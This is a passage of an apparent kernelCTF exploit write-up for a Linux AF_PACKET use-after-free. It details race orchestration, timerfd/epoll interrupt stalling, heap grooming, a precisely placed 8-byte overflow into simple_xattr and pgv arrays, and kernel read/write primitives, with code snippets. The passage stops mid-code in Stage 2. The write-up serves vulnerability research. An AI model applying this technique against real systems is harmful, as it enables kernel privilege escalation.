- **`pg_vec_lock_thread`** (CPU 0, `nice = 19` — lowest priority): Holds the mutex
- **`pg_vec_buffer_thread`** (CPU 0, normal priority): Runs `packet_set_ring()` to free the ring buffer
- **`tpacket_rcv_thread`** (CPU 1): Sends the packet that triggers the UAF

The `pg_vec_buffer_thread` has higher priority than `pg_vec_lock_thread` on the same CPU. This is critical for the second race's timing. Both threads are pinned to CPU 0, so only one can run at a time. When `tpacket_snd()` in `pg_vec_lock_thread` calls `mutex_unlock(&po->pg_vec_lock)`, the CFS (Completely Fair Scheduler) — Linux's default process scheduler, which allocates CPU time proportionally based on priority — sees that the woken `pg_vec_buffer_thread` (nice=0) has higher priority than the running `pg_vec_lock_thread` (nice=19, the lowest possible priority) and **immediately preempts** it. This means `packet_set_ring()` resumes without delay — it frees the old ring buffer pages, and the same thread immediately reclaims them with `alloc_pages()`. This matters because over on CPU 1, `tpacket_rcv()` is frozen by the timer interrupt, and that freeze has a finite duration. The entire free-and-reclaim sequence on CPU 0 must complete before the interrupt returns on CPU 1. If `pg_vec_lock_thread` continued running after the mutex release (burning CPU 0 time on irrelevant cleanup), the reclamation might not finish in time — causing a NULL dereference crash instead of a controlled UAF.

The orchestration proceeds step by step:

**Step 1: Lock the mutex.** Main thread sends work to `pg_vec_lock_thread`, which calls `sendmsg()` → enters `tpacket_snd()` → acquires `po->pg_vec_lock` → reaches `wait_for_completion_interruptible_timeout()` → sleeps. Main thread polls `/proc/[tid]/stat` until the thread state is `S` (sleeping), then records `pg_vec_lock_acquire_time` via `clock_gettime(CLOCK_MONOTONIC)`.

**Step 2: Bring the interface DOWN.** Main thread calls `ioctl(SIOCSIFFLAGS)` to set the interface DOWN. This triggers `packet_notifier()` with `NETDEV_DOWN`, which unhooks the victim socket (sets `PACKET_SOCK_RUNNING = false`). The socket is no longer running, but `po->num` is still non-zero.

**Step 3: Trigger `packet_set_ring()`.** Main thread sends work to `pg_vec_buffer_thread`, which calls `setsockopt(PACKET_RX_RING, {tp_block_nr=0})`. This enters the free path of `packet_set_ring()`:
- `spin_lock(&po->bind_lock)`
- `was_running = false` (interface is DOWN)
- `num = po->num` (non-zero — **this is the bug**)
- `if (was_running)` is false → **`po->num` is NOT zeroed**
- `spin_unlock(&po->bind_lock)` — the race window opens
- `synchronize_net()` — brief wait
- `mutex_lock(&po->pg_vec_lock)` — **BLOCKS** because `pg_vec_lock_thread` holds it

Main thread polls `/proc/[tid]/stat` until `pg_vec_buffer_thread` is sleeping. **This confirms that `packet_set_ring()` has passed the vulnerable `bind_lock` section and is now blocked on the mutex.**

**Step 4: Bring the interface UP.** Main thread calls `ioctl(SIOCSIFFLAGS)` to set the interface UP. This triggers `packet_notifier()` with `NETDEV_UP`:
```c
case NETDEV_UP:
    spin_lock(&po->bind_lock);
    if (po->num)                  // non-zero — the bug!
        register_prot_hook(sk);   // re-hooks the socket!
    spin_unlock(&po->bind_lock);
```

**The first race is won.** The victim socket is now hooked to the interface again — it will receive packets via `tpacket_rcv()` — but `packet_set_ring()` is frozen at the mutex, waiting to free the old ring buffer. There was no race to win; the exploit verified each state transition before proceeding to the next.

#### Second Race: Probabilistic but Enhanced with Three Timing Mechanisms

After winning the first race, the exploit has achieved this state:
- The victim socket is **hooked to the network interface** (receiving packets via `tpacket_rcv()`)
- `packet_set_ring()` is **frozen**, blocked on `po->pg_vec_lock` held by the sleeping `pg_vec_lock_thread`
- The `pg_vec_lock_thread` will wake up after exactly 1 second (the `SO_SNDTIMEO` timeout)

When the timeout expires and `pg_vec_lock_thread` releases the mutex, `packet_set_ring()` resumes. Inside the `pg_vec_lock` critical section, it does two things: (1) swaps `rb->pg_vec` to NULL, and (2) **changes the protocol hook function from `tpacket_rcv` to `packet_rcv`**. After releasing the mutex, it calls `free_pg_vec()` to free the old ring buffer pages.

This hook change is what makes the second race necessary. Once `packet_set_ring()` switches the hook to `packet_rcv`, any *new* packet arriving at the socket will be dispatched to `packet_rcv()` instead of `tpacket_rcv()` — and `packet_rcv()` doesn't use the ring buffer at all, so there's no UAF. The exploit cannot simply wait until the ring buffer is freed and then send a packet; by that point, the hook has already been changed.

The only way to get `tpacket_rcv()` to access freed memory is to have it **already dispatched** before the hook is changed. The network stack resolves the hook function pointer at packet dispatch time. If a packet is sent to the interface and `tpacket_rcv()` is called *before* `packet_set_ring()` swaps the hook, then `tpacket_rcv()` will continue executing its code path — including accessing the ring buffer — regardless of what `packet_set_ring()` does afterward. The function is already on the call stack; the hook pointer swap only affects future packets.

So the second race is about getting `tpacket_rcv()` to be **dispatched** *before* `packet_set_ring()` changes the hook, and then having `tpacket_rcv()` dereference the ring buffer pages *after* `packet_set_ring()` has freed them. The exploit uses three independent timing mechanisms stacked together to hit this window.

**Mechanism 1: Calculated Sleep**

The exploit knows exactly when the mutex will be released:

```c
pg_vec_lock_release_time = pg_vec_lock_acquire_time + sndtimeo  // +1 second
```

The `tpacket_rcv_thread` receives this timestamp and sleeps until just **before** the release:

```c
// In tpacket_rcv_thread_fn:
struct timespec sleep_duration = timespec_sub(
    remaining_time_before_pg_vec_lock_release,
    work->decrease_tpacket_rcv_thread_sleep_time  // 5000 ns = 5μs
);
syscall(SYS_nanosleep, &sleep_duration, NULL);
syscall(SYS_sendmsg, trigger_sendmsg_packet_socket, work->msg, 0);
```

The thread wakes up ~5 microseconds before the mutex releases and immediately sends the packet via `packet_sendmsg_spkt()` — chosen because it has the shortest code path from `sendmsg()` to `dev_queue_xmit()` to the protocol hook. The packet traverses the network stack and arrives at `tpacket_rcv()` on the victim socket.

**Mechanism 2: BPF Filter Delay**

A 700-instruction classic BPF filter is attached to the victim socket:

```c
struct sock_filter filter[700];
for (int i = 0; i < 699; i++) {
    filter[i].code = BPF_LD | BPF_IMM;
    filter[i].k = 0xcafebabe;          // load immediate — cheap but not free
}
filter[699].code = BPF_RET | BPF_K;
filter[699].k = sizeof(size_t);        // return truncated length = 8 bytes
```

When the packet arrives and `tpacket_rcv()` is invoked, it calls `run_filter()` early in its execution — **before** it ever touches `pkc->pkbdq` or any ring buffer pointer. The filter executes all 700 instructions, burning CPU time. During this window, CPU 0 is free to run `packet_set_ring()`, free the ring buffer, and reclaim it. The final `BPF_RET` instruction also serves a second purpose: it truncates the packet's "snapshot length" to exactly 8 bytes (or `sizeof(void *)`) — the precise number of bytes the exploit wants to overwrite in the overflow target.

**Mechanism 3: Timer Interrupt Lengthening (Jann Horn's Technique)**

The BPF filter alone buys only microseconds. The exploit needs to **pause `tpacket_rcv()` on CPU 1 for much longer** — long enough for `packet_set_ring()` on CPU 0 to not only free the ring buffer but also for the reclamation allocation to complete. This is where the timer interrupt technique comes in.

**Background: timerfd, epoll, and wait queues.** The Linux `timerfd_create()` syscall creates a file descriptor that delivers timer expiration notifications. Internally, the kernel allocates a `timerfd_ctx` structure containing an `hrtimer` (high-resolution timer) and a `wait_queue_head` (`wqh`). When the timer fires, the kernel's hrtimer interrupt handler calls `timerfd_tmrproc()`, which wakes up all waiters on `wqh`.

The `epoll` subsystem is how waiters get added to `wqh`. When you call `epoll_ctl(EPOLL_CTL_ADD)` to monitor a timerfd, the kernel calls `ep_ptable_queue_proc()`, which allocates a `wait_queue_entry` and adds it to the timerfd's `wqh` via `add_wait_queue()`. Each `epoll_ctl()` call on a different file descriptor pointing to the same timerfd adds **one more entry** to this wait queue. So the key insight is: **a single timerfd can accumulate an arbitrarily large wait queue by monitoring many `dup()`'d copies of it through epoll.**

When the timer fires, the interrupt handler must walk the entire wait queue under `spin_lock_irqsave` — meaning interrupts are disabled and the CPU cannot be preempted until every entry is processed. This turns the wait queue length into a **controllable CPU stall duration**.

**The file descriptor table constraint.** In the kernelCTF environment, each process is limited to 4,096 file descriptors (`RLIMIT_NOFILE`). The exploit first raises `rlim_cur` to `rlim_max` (4,096) via `setrlimit()`. Even so, 4,096 wait queue entries isn't enough to stall the CPU for the required duration. The exploit works around this by creating 180 threads, each with its own **private file descriptor table**:

*Setup phase* — During initialization, the exploit creates 180 `timerfd_waitlist_thread` threads. Each thread:
1. Is pinned to **CPU 1** (same CPU as `tpacket_rcv_thread`)
2. Calls `unshare(CLONE_FILES)` to get its own private file descriptor table — this is the key trick that multiplies the FD limit, since each thread now has its own independent table of 4,096 slots
3. Closes stdin, stdout, and stderr to free up three more slots
4. Creates an epollfd (uses one slot)
5. Calls `dup(timerfd)` in a loop until the FD table is full — the original timerfd (created by the main thread before `unshare`) is still accessible, and each `dup()` creates a new file descriptor pointing to the same underlying `timerfd_ctx`
6. Calls `epoll_ctl(EPOLL_CTL_ADD)` for each duplicated FD, adding a wait queue entry to the timerfd's `wqh` for every one

Each `epoll_ctl()` call adds a `wait_queue_entry` to the timerfd's internal wait queue via `ep_ptable_queue_proc()` → `add_wait_queue()`. With 180 threads × ~4,000 FDs each, the timerfd's wait queue accumulates roughly **720,000 entries**.

*Firing phase* — The exploit arms the timer from CPU 1 (important — `timerfd_settime()` binds the hrtimer to the calling CPU):

```c
struct itimerspec settime_value = {};
settime_value.it_value = timespec_add(pg_vec_lock_release_time,
                                       timer_interrupt_amplitude);  // +150μs
timerfd_settime(timerfd, TFD_TIMER_ABSTIME, &settime_value, NULL);
```

When the timer fires on CPU 1, the kernel interrupt handler executes:
```
timerfd_tmrproc()
  → timerfd_triggered()
    → spin_lock_irqsave(&ctx->wqh.lock, flags)   // interrupts disabled!
    → wake_up_locked_poll()
      → __wake_up_common()                         // walks the waitqueue
        → list_for_each_entry_safe_from(...)       // 720,000 entries!
          → ep_poll_callback()                     // called for each entry
    → spin_unlock_irqrestore(...)
```

The `__wake_up_common()` function iterates through all 720,000 wait queue entries, calling `ep_poll_callback()` for each one. This entire loop runs inside `spin_lock_irqsave` — meaning **interrupts are disabled and preemption is impossible**. If `tpacket_rcv()` was executing on CPU 1 when the interrupt fired, it is **completely frozen** until the interrupt handler finishes walking the entire list. This takes hundreds of microseconds to milliseconds — more than enough time for `packet_set_ring()` on CPU 0 to free the ring buffer and for `pg_vec_buffer_thread` to reclaim it with a new ring buffer.

**Putting it all together**

The following diagram shows the full timeline of both races — Race 1 (deterministic, top) and Race 2 (probabilistic, bottom) — with swim lanes for each thread and CPU, showing how the three timing mechanisms stack to create the UAF window:


The exploit retries this entire sequence if the race is lost (detected by checking whether the overflow actually corrupted the target object). In practice, the combination of precise sleep timing, BPF filter delay, and the massive timer interrupt provides a high success rate.

### Stage 1: Page Overflow Primitive (via xattr corruption)

After winning both races, the exploit needs to turn the UAF into something useful. This stage has three parts: reclaiming the freed ring buffer to prevent a kernel panic, arranging the heap so the reclaimed buffer is adjacent to a victim object, and engineering a precise overflow that corrupts exactly the right field.

#### Part 1: Reclaiming the freed pgv array

The key challenge is that `free_pg_vec()` zeroes out all buffer pointers in the `pgv` array after freeing it:

```c
static void free_pg_vec(struct pgv *pg_vec, unsigned int order, unsigned int len)
{
    for (i = 0; i < len; i++) {
        if (pg_vec[i].buffer) {
            free_pages((unsigned long)pg_vec[i].buffer, order);
            pg_vec[i].buffer = NULL;  // zeroed!
        }
    }
    kfree(pg_vec);
}
```

If `tpacket_rcv()` reads a zeroed buffer pointer, it dereferences NULL and the kernel panics. The exploit must **reclaim** the freed `pgv` array — replace it in memory with a new `pgv` array containing valid buffer pointers — before `tpacket_rcv()` gets past the BPF filter, the timer interrupt and accesses it.

This is handled by `pg_vec_buffer_thread`, which runs on CPU 0 alongside `packet_set_ring()`. Immediately after `packet_set_ring()` frees the victim's ring buffer, the same thread allocates a new TX ring buffer on a different packet socket:

```c
// In pg_vec_buffer_thread_fn:
// Step 1: Free victim RX ring
setsockopt(victim_fd, SOL_PACKET, PACKET_RX_RING, &free_req, sizeof(free_req));
// Step 2: Immediately reclaim with a new TX ring
alloc_pages(reclaim_socket, MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_KMALLOC_16, PAGES_ORDER2_SIZE);
```

The `alloc_pages()` function used throughout the exploit is a helper that allocates kernel pages by creating a TX ring buffer on a packet socket. It calls `setsockopt(PACKET_TX_RING)` with the specified block count and block size, which triggers `packet_set_ring()` → `alloc_pg_vec()` in the kernel — allocating both a `pgv` array and the requested number of page blocks. The corresponding `free_pages()` helper calls `setsockopt(PACKET_TX_RING)` with all-zero parameters, triggering the free path. This gives the exploit precise control over kernel page allocations and frees through a simple userspace API: each packet socket can hold one TX ring, and creating or destroying that ring allocates or frees pages of the exact size the exploit needs.

The reclamation ring has the **same number of blocks** as the victim (2 blocks — `MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_KMALLOC_16 = 2`) so the `pgv` array is the same size: `kcalloc(2, sizeof(struct pgv)) = kcalloc(2, 8) = 16 bytes`. The size match is essential because of the two heap mitigations. `CONFIG_RANDOM_KMALLOC_CACHES` selects the slab cache by hashing the **call site** address — both pgv arrays are allocated by the same `kcalloc()` inside `alloc_pg_vec()`, so they hash to the same random cache. But this only works if they're also in the **same size class**: if the reclamation used 4 blocks (32 bytes → `kmalloc-32`) instead of 2 blocks (16 bytes → `kmalloc-16`), it would go to a different slab cache entirely. `CONFIG_SLAB_VIRTUAL` enforces that each slab cache gets a dedicated virtual address range — a freed `kmalloc-16` slot can only be reused by another `kmalloc-16` allocation. Same call site + same size = guaranteed same slab cache = the new pgv array lands on the exact memory the old one occupied.

The following diagram shows the pgv array through its three states — before free, after free (zeroed, dangerous), and after reclamation (new blocks, smaller size). The stale `pkc->pkbdq` pointer references the same memory address throughout:



Before reclamation, the stale pointer would find NULLs and the kernel would crash. After reclamation it finds valid pointers — but to **smaller** 16 KB blocks instead of the original 32 KB blocks. This size mismatch is what enables the overflow: the stale `kblk_size = 32768` makes `tpacket_rcv()` believe each block is 32 KB, but the actual blocks are only 16 KB, so writes beyond 16 KB spill into adjacent memory.

#### Part 2: Heap grooming for page layout

The exploit needs to achieve two things through heap grooming:

1. **Force `tpacket_rcv()` to advance past block 0 to block 1.** Block 0's stale `nxt_offset` points into the old freed 32KB page — writing there would be uncontrolled. Block 1 gets a fresh `nxt_offset` via `prb_open_block()` that points into an actual reclaimed page.
2. **Ensure block 1 of the reclamation ring is physically adjacent to a `simple_xattr`.** The overflow from block 1 must spill into a victim object, not into random memory.

To force the block 1 path, the exploit needs `curr > end` in `__packet_lookup_frame_in_block()`. This means the stale `nxt_offset` (from old block 0) must be at a **higher** address than `new_block_0 + 32768`. To ensure adjacency, the reclamation ring's blocks must land in a region densely packed with `simple_xattr` objects. The exploit achieves both through a carefully staged allocation sequence:

```
Phase 1: Drain the page allocator
──────────────────────────────────
Step 1: Allocate 1024 × 16KB pages (drains order-2 freelist)
Step 2: Allocate 1024 × 32KB pages (drains order-3 freelist)      ← "drain batch 1"
Step 3: Allocate 512 × 32KB pages (more order-3 drain)            ← "drain batch 2"

After draining, the order-2 and order-3 freelists are empty.
Any new allocation at these sizes must come from splitting higher-order pages.

Phase 2: Allocate the victim ring buffer
────────────────────────────────────────
Step 4: Configure victim socket → RX ring allocates 2 × 32KB blocks (order-3)

Since the order-3 freelist is empty, these blocks come from splitting
order-4 or higher pages → they land at HIGH virtual addresses.

Phase 3: Build the simple_xattr spray region
─────────────────────────────────────────────
Step 5: Free drain batch 1 (1024 × 32KB order-3 pages)

These pages return to the order-3 freelist at LOWER addresses
than the victim's blocks (they were allocated earlier, before draining
pushed the allocator to higher-order pages).

Step 6: Spray 2048 simple_xattr objects (each with 8KB value → order-2 page)

The order-2 freelist is still empty (drained in step 1, never freed).
So the buddy allocator splits the just-freed order-3 pages from step 5:
each 32KB page becomes two 16KB halves. The simple_xattr values fill
these halves, creating a dense region of order-2 pages at LOW addresses.

Step 7: Free sparse holes — every 128th xattr starting from index 512

    for (i = 512; i < 2048; i += 128)
        removexattr(simple_xattr_requests[i]);

This frees ~12 order-2 pages scattered among the simple_xattr objects,
returning them to the order-2 freelist. These holes are the landing
slots for the reclamation ring's blocks.

Phase 4: Trigger the race and reclaim
──────────────────────────────────────
Step 8: Win the race → packet_set_ring() frees the old ring buffer

The victim's 2 × 32KB blocks are freed back to the order-3 freelist.
They are at HIGH addresses. The pgv array (16 bytes) is freed to slab.

Step 9: pg_vec_buffer_thread immediately reclaims:
    alloc_pages(reclaim_socket, MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_KMALLOC_16, PAGES_ORDER2_SIZE)

This allocates a new ring with 2 × 16KB blocks. The allocator needs
order-2 pages. The order-2 freelist has the sparse holes from step 7
(exact-size matches), so it serves from those FIRST — before considering
splitting the victim's freed order-3 pages. The reclamation blocks
land in the holes among the simple_xattr objects, at LOW addresses,
surrounded by simple_xattr objects on both sides.
```

The result is this memory layout:



**Why block 0 can't work, even if it were reclaimed.** One might ask: couldn't the victim's freed order-3 blocks be buddy-split into order-2 halves, with one half adjacent to a `simple_xattr`? The answer is no — those blocks are at high addresses, far from the `simple_xattr` spray region. Even if the buddy allocator did split them, the two halves would be adjacent to *each other* (they're buddy pairs), not to any `simple_xattr`. The exploit has no control over what's physically next to the victim's old pages.

By contrast, the reclamation blocks land in the carefully prepared holes among the `simple_xattr` spray, where adjacency is guaranteed. But the stale `nxt_offset` for block 0 still points to the victim's old high-address region, not into these holes. So the exploit must force advancement to block 1.

**The stale metadata.** The TPACKET_V3 metadata (`prb_bdqc`) in the victim socket is **not updated** during the free — it still contains stale values from the original 32 KB ring:

```
pkc->pkbdq         → old pgv array address (now reclaimed with new pgv)
pkc->kblk_size     → 32768 (32 KB — the OLD block size)
pkc->knum_blocks   → 2
pkc->blk_sizeof_priv → 16248
pkc->kactive_blk_num → 0
pkc->nxt_offset    → old_block_0 + 16296 (HIGH address — stale)
```

When `tpacket_rcv()` accesses the ring buffer through `__packet_lookup_frame_in_block()`:

```c
pkc = &po->rx_ring.prb_bdqc;
pbd = pkc->pkbdq[pkc->kactive_blk_num].buffer;  // reads reclaimed pgv[0].buffer
                                                   // = new 16KB block (LOW address, in xattr region)
curr = pkc->nxt_offset;    // old_block_0 + 16296 (HIGH address — stale)
end = (char *)pbd + pkc->kblk_size;   // new_block_0 + 32768 (still LOW)

if (curr + ALIGN(len, 8) < end) {
    // packet fits in current block — write here
} else {
    prb_retire_current_block(pkc, po, 0);         // retire new_block_0
    curr = prb_dispatch_next_block(pkc, po);      // advance to new_block_1
    // ... write to new_block_1
}
```

Since `curr` (high address) > `end` (low address + 32KB), the "doesn't fit" branch is always taken, and `tpacket_rcv()` advances to block 1 — which is in the groomed region, adjacent to a `simple_xattr`.

#### Part 3: The precision overflow

When `tpacket_rcv()` takes the "doesn't fit" path, it calls `prb_retire_current_block()` then `prb_dispatch_next_block()`, which advances to block 1 and calls `prb_open_block()`:

```c
static void prb_open_block(struct tpacket_kbdq_core *pkc,
    struct tpacket_block_desc *pbd)
{
    pkc->pkblk_start = (char *)pbd;   // start of reclaimed block 1 (16 KB)
    pkc->nxt_offset = pkc->pkblk_start + BLK_PLUS_PRIV(pkc->blk_sizeof_priv);
    pkc->pkblk_end = pkc->pkblk_start + pkc->kblk_size;  // + 32KB (stale!)
}
```

The key computation: `BLK_PLUS_PRIV(blk_sizeof_priv)` = `BLK_HDR_LEN + ALIGN(blk_sizeof_priv, 8)` where `BLK_HDR_LEN = ALIGN(sizeof(struct tpacket_block_desc), 8) = 48`. With `blk_sizeof_priv = 16248`:

```
nxt_offset = reclaimed_block_1 + 48 + 16248 = reclaimed_block_1 + 16296
```

The actual block size is 16,384 bytes (16 KB = 4 pages). So `nxt_offset` is positioned **88 bytes before the end** of the actual block. But `pkblk_end` is computed using the stale `kblk_size = 32768`, placing it 16 KB past the real end — so `tpacket_rcv()` believes there's plenty of room.

Back in `tpacket_rcv()`, the function returns `h.raw = nxt_offset` and proceeds to write at several offsets from `h.raw`:

**Non-controlled writes** (kernel-generated headers):
- At `h.raw + 0`: the `tpacket3_hdr` structure (44 bytes of status, timestamps, lengths)
- At `h.raw + 48`: the `sockaddr_ll` structure (~20 bytes of link-layer address info)

These occupy offsets 0 through ~67 from `h.raw`, fitting within the 88 remaining bytes. **They stay inside the block.**

**Controlled write** (attacker's packet data):
```c
skb_copy_bits(skb, 0, h.raw + macoff, snaplen);
```

Where `macoff` is calculated as:
```c
macoff = netoff - maclen;
netoff = TPACKET_ALIGN(po->tp_hdrlen + max(maclen, 16)) + po->tp_reserve;
```

The exploit controls two knobs in this calculation to land the write at an exact byte offset:

- **`tp_sizeof_priv`** (set via `setsockopt(PACKET_RX_RING)`) — controls where `nxt_offset` starts within the block. This is the coarse knob: the kernel rounds it up to 8 bytes (`ALIGN(blk_sizeof_priv, 8)`), so it can only position `nxt_offset` at 8-byte increments.
- **`tp_reserve`** (set via `setsockopt(PACKET_RESERVE)`) — adds padding between the TPACKET header and the packet data. This is the fine knob: it's added without any rounding, giving byte-level precision.

Together they work like a vernier caliper. The exploit uses `tp_sizeof_priv = 16248` and `tp_reserve = 38`, but any pair where `ALIGN(tp_sizeof_priv, 8) + tp_reserve = 16286` works (e.g., `16280 + 6`).

The write position within a block is `nxt_offset + macoff`:

- `nxt_offset = 48 + ALIGN(tp_sizeof_priv, 8) = 48 + 16248 = 16296`
- `macoff = netoff - maclen`, where `netoff = TPACKET_ALIGN(tp_hdrlen + 16) + tp_reserve = TPACKET_ALIGN(68 + 16) + 38 = 96 + 38 = 134`, and `maclen = 14` (ETH_HLEN), so `macoff = 120`
- `write position = 16296 + 120 = 16416 = 16384 + 32`

The block is only 16,384 bytes, so the write lands **32 bytes past the block boundary** into the adjacent page. The BPF filter truncates `snaplen` to `sizeof(size_t) = 8` bytes, so the exploit writes exactly **8 bytes** at that offset.

The following diagram shows the full structure from the packet socket down to the per-block memory layout, including both positioning knobs (`blk_sizeof_priv` and `tp_reserve`):



#### What lives at the overflow offset?

The exploit sprays 2,048 `simple_xattr` kernel objects adjacent to the reclamation blocks. Each xattr is allocated with `value_size = 8192`, making the total allocation (header + 8,192 bytes) served from order-2 pages (16 KB).

**The overflow lands exactly on the `size` field** of the adjacent `simple_xattr`. This is not a coincidence — `tp_sizeof_priv` (16,248) positions `nxt_offset` at 16,296, and `tp_reserve` (38) is chosen so that `nxt_offset + macoff = 16,416 = 16,384 + 32`, landing precisely at the `size` field's offset within the `simple_xattr` struct.

The packet data is crafted with `XATTR_SIZE_MAX` (65,536) as the first 8 bytes:
```c
u8 packet_data[128] = {};
*(size_t *)(packet_data) = XATTR_SIZE_MAX;  // 65536
```

After the overflow, one of the 2,048 `simple_xattr` objects has its `size` field changed from 8,192 to 65,536.

#### Creating the holes for adjacency

The simple_xattr spray is arranged to maximize the probability that one ends up immediately after reclamation block 1:

```
Step 5: Free drain_pages_order3_1 — returns 1024 × 32KB pages to the freelist
Step 6: Spray 2,048 simple_xattr objects — each needs 16KB (order-2) pages
```

Since the order-2 freelist was drained in step 1, the buddy allocator **splits** the freed order-3 pages: each 32 KB page becomes two 16 KB halves. The spray consumes these halves, filling the address range previously occupied by `drain_pages_order3_1`.

Before triggering the race, the exploit frees some xattrs at regular intervals to create holes:

```c
for (int i = 512; i < 2048; i += 128) {
    removexattr(filepath, name_i);  // creates a 16KB hole every 128 objects
}
```

The reclamation ring's block 1 (16 KB) lands in one of these holes. Since the holes are periodic and the surrounding slots are occupied by `simple_xattr` objects, the page immediately after block 1 is very likely to contain a `simple_xattr`.

#### Detecting the corruption

The exploit scans all sprayed xattrs to find the corrupted one:

```c
for (int i = 0; i < 2048; i++) {
    ssize_t ret = getxattr(filepath, name_i, value, 8192);
    if (ret < 0 && errno == ERANGE) {
        // Found it! size was changed from 8192 to 65536
        overflowed_xattr = i;
    }
}
```

Normally, `getxattr()` with a buffer of 8,192 bytes succeeds because `xattr->size == 8192`. But for the corrupted xattr, `xattr->size == 65536 > 8192`, so the kernel returns `ERANGE` ("buffer too small"). This is the signal.

#### Building the heap read primitive

Now the exploit has a **heap read primitive**: calling `getxattr()` with a 65,536-byte buffer on the corrupted xattr reads 65,536 bytes starting from the xattr's `value` field. Since the xattr's actual data is only 8,192 bytes but the kernel thinks `size` is 65,536, it copies 65,536 bytes — leaking ~57 KB of adjacent kernel heap memory.

The exploit uses this to find another `simple_xattr` in the leaked data, identifying it by pattern-matching the `rb_node` pointers (must be valid kernel addresses or NULL), the `name` pointer (must be a kernel address), the `size` field (must equal 8,192), and the `value` content (must match the known spray pattern like `"pages_order2_groom_42"`). This second xattr is called `leaked_content_simple_xattr`.

Next, the exploit **removes all other xattrs** — it loops through all 2,048 sprayed entries and calls `removexattr()` on every one except the corrupted xattr and the leaked one. This reduces the inode's red-black tree from ~2,048 nodes to exactly **two**. In a two-node tree, one node is the root and the other is its child — so the leaked xattr's `rb_node` pointers (parent, left, right) **must** reference the corrupted xattr, since there is no other node they could point to. With 2,048 nodes, the leaked xattr's tree neighbors could be any of the other sprayed xattrs, and finding the corrupted one among them would be unreliable. The cleanup step eliminates this ambiguity.

Now the exploit calls `getxattr()` a second time on the corrupted xattr with a 65,536-byte buffer. This works the same way as the first read: the kernel copies 65,536 bytes starting from the corrupted xattr's `value[]` field, spilling past its actual 8,192 bytes of data into adjacent heap memory. The leaked xattr lives on a nearby order-2 page (the first read already identified which page offset it sits at), so its `rb_node` pointers appear at a known position within the 65KB dump.

The key difference from the first read: the tree has been pruned to two nodes. The kernel reorganized the red-black tree as it removed the other ~2,046 xattrs, updating the remaining nodes' pointers along the way. In the resulting two-node tree, the leaked xattr's `rb_node.__rb_parent_color` points to its parent (the corrupted xattr, if the corrupted xattr is the root) or its `rb_left`/`rb_right` points to the corrupted xattr (if the leaked xattr is the root). Either way, one of the three `rb_node` pointers contains the corrupted xattr's kernel address:

```c
u64 parent = (u64)(__rb_parent(leaked_simple_xattr->rb_node.__rb_parent_color));
u64 left   = (u64)(leaked_simple_xattr->rb_node.rb_left);
u64 right  = (u64)(leaked_simple_xattr->rb_node.rb_right);
overflowed_simple_xattr_kernel_address = parent ? parent : (left ? left : right);
```

From the corrupted xattr's address and the known offset between the two xattrs in the leak data (each xattr occupies one order-2 page, so the offset is `page_index × 16384`), the exploit calculates the kernel address of `leaked_content_simple_xattr` itself. These two addresses are the foundation for Stage 2.

### Stage 2: Heap Read/Write via pgv Overlap

Stage 1 gave us two things: a heap read primitive (through the corrupted xattr with `size = 65536`) and the kernel addresses of two `simple_xattr` objects. But the heap read only works through `getxattr()` — a one-directional, read-only channel. To build a full read/write primitive, the exploit triggers the race a **second time**, this time overflowing into a `pgv` array to gain direct memory-mapped access to a `simple_xattr` in kernel memory.

#### The target: pgv arrays instead of xattrs

The key idea: if the overflow writes a **kernel address** into a `pgv[N].buffer` entry of some ring buffer, then `mmap()`'ing that ring buffer maps `pgv[N].buffer` into userspace. If `pgv[N].buffer` points to a `simple_xattr` object, the attacker gets a direct userspace pointer to live kernel data — readable and writable without any syscall.

The exploit creates 256 packet sockets and gives each one a TX ring buffer whose `pgv` array is large enough to be allocated from order-2 pages (16 KB). The size is chosen by setting the block count to `MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_PAGES_ORDER2`:

```c
#define MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_PAGES_ORDER2  ((KMALLOC_8K_SIZE / sizeof(struct pgv)) + 1)
// = (8192 / 8) + 1 = 1025
```

Each ring buffer block is tracked by one `struct pgv` (a single 8-byte pointer), so 1,025 blocks means a `pgv` array of `1025 × 8 = 8,200` bytes. This goes through `kcalloc(1025, sizeof(struct pgv))` inside `alloc_pg_vec()`. The number 1,025 is deliberately one more than 1,024: with exactly 1,024 blocks, the array would be 8,192 bytes, which fits inside the `kmalloc-8k` slab bucket — and slab allocations don't participate in page-level grooming. By requesting 1,025 blocks (8,200 bytes), the allocation exceeds the `kmalloc-8k` limit and falls through to the **page allocator**, which serves it from order-2 pages (16 KB). This is essential because the pgv arrays must land on order-2 pages to match the size of the holes created during heap grooming. Order-3 pages would also work but would waste twice as much memory.

#### Heap grooming

The grooming follows the same pattern as Stage 1, with reduced allocation counts (since memory is limited):

```
Step 1: Drain order-2 freelist — 256 × 16 KB pages
Step 2: Drain order-3 freelist — 128 × 32 KB pages (drain_pages_order3_1)
Step 3: More order-3 drain — 128 × 32 KB pages (drain_pages_order3_2)
Step 4: Configure victim socket — RX ring allocates 2 × 32 KB blocks (high addresses)
Step 5: Free drain_pages_order3_1 — returns 128 × 32 KB pages
Step 6: Spray 256 pgv arrays — each 8,200 bytes, served from order-2 pages
         (buddy allocator splits the freed order-3 pages into order-2 halves)
Step 7: Free some pgv arrays to create holes for reclamation
```

The hole creation is sparse — 6 holes every 16 entries starting at index 64:

```c
for (int i = 64, free_count = 0;
     i < 256 && free_count < 6;
     i += 16, free_count++) {
    free_pages(spray_pg_vec_packet_sockets[i]);
}
```

The reclamation buffer (from the second race trigger) will land in one of these holes, with sprayed `pgv` arrays on both sides.

#### Triggering the second race

The exploit runs the same two-race sequence as Stage 1 — identical victim socket configuration, same mutex-barrier technique for race 1, same BPF filter + timer interrupt for race 2 — but with one difference: the packet data now contains `leaked_content_simple_xattr_kernel_address` (obtained from Stage 1) instead of `XATTR_SIZE_MAX`:

```c
u8 packet_data[128] = {};
*(u64 *)(packet_data) = simple_xattr_kernel_address;
```

The overflow arithmetic is identical: the 8-byte write lands at offset 24 past the reclamation block boundary, which is the 4th entry (index 3) of the adjacent `pgv` array — because `24 / sizeof(struct pgv) = 24 / 8 = 3`.

So after the overflow: `adjacent_pgv[3].buffer = leaked_content_simple_xattr_kernel_address`.

#### Detecting the overflow

The exploit iterates through all 256 sprayed ring buffers, `mmap()`s each one, and checks whether the data at block 3 (offset `3 × PAGE_SIZE`) looks like a `simple_xattr`:

```c
for (int i = 0; i < 256 && !overflow_success; i++) {
    void *mem = mmap(NULL, mmap_size, PROT_READ | PROT_WRITE, MAP_SHARED,
                     spray_pg_vec_packet_sockets[i], 0);

